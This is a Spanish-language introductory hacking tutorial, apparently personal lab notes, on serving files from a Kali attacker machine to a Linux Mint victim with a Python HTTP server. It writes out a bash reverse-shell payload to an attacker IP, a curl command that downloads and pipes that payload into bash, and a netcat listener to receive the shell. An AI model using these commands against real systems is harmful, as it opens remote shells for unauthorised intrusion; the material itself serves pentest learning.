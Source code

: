 
---
- TAG: #Introducción #hacking #basico #HTTP #ReverShell #Python
----
# Transferir Archivos con un Servidor HTTP en la Red Interna

En este apartado, voy a compartir cómo transferir archivos con el servidor `http` en mi red interna. Ya que es muy importante cuando logremos acceder a nuestra máquina objetivo, es muy común que queramos escalar privilegios, encontrar alguna vulnerabilidad, incluso si queremos hacer algo de pivoting. Es muy importante poder transferir archivos desde mi máquina atacante a mi máquina víctima. Para ello, lo más común es levantar un servidor http compartiendo el archivo que deseemos compartir. En el siguiente ejemplo, estaremos viendo unos pequeños ejemplos desde mi máquina Kali Linux hacia mi máquina objetivo Linux Mint.

# Máquina Kali Linux (Atacante)

Vamos a crearnos un `payload.sh`:

```bash
#!/bin/bash  
bash -i >& /dev/tcp/1.2.3.4/443 0>&1
```

Es la típica para crear una reverse shell con nuestra dirección IP de nuestra propia máquina atacante.

Ahora, para compartir el payload con nuestra máquina víctima, levantamos un servidor _http_ por el puerto _80_ con todos los archivos que tenemos en el directorio actual:

```python
python -m http.server 80
```

Si ejecutamos el comando, tendremos un servidor web levantado por el puerto 80, compartiendo todo lo del directorio actual donde se encuentra el archivo `payload.sh`.

Ahora nos dirigimos a nuestra máquina Linux Mint.

# Máquina Linux Mint (Víctima)

Abrimos el navegador y colocamos la dirección IP de la máquina Kali Linux.

También, si tenemos la opción de ejecución remota, dentro de la máquina víctima lo más óptimo es ejecutar el comando `curl` o `wget`.

Con `curl`:

```bash
curl http://1.2.3.4/payload.sh | bash
```

Por otro lado, en nuestra máquina **Kali Linux** usamos el siguiente comando:

```bash
sudo nc -nlvp 443
```

`nc` se refiere a `netcat`. Aquí está el desglose del comando:

- `sudo`: Ejecuta el comando con privilegios de superusuario. Esto es necesario si estás utilizando un puerto privilegiado (menor a 1024), como el puerto 443.
- `nc`: Llama a `netcat`, la utilidad de red.
- `-n`: Evita hacer búsquedas de nombres de host. Netcat usará directamente las direcciones IP.
- `-l`: Coloca a `netcat` en modo de escucha, esperando conexiones entrantes.
- `-v`: Modo detallado (verbose). Proporciona más información sobre lo que está haciendo `netcat`.
- `-p 443`: Especifica el puerto en el que `netcat` debe escuchar. En este caso, es el puerto 443.

Este comando debería ejecutarse primero en la máquina atacante **Kali Linux** y luego el comando `curl http://1.2.3.4/payload.sh | bash`.

Esto permite compartir archivos a través del servidor web.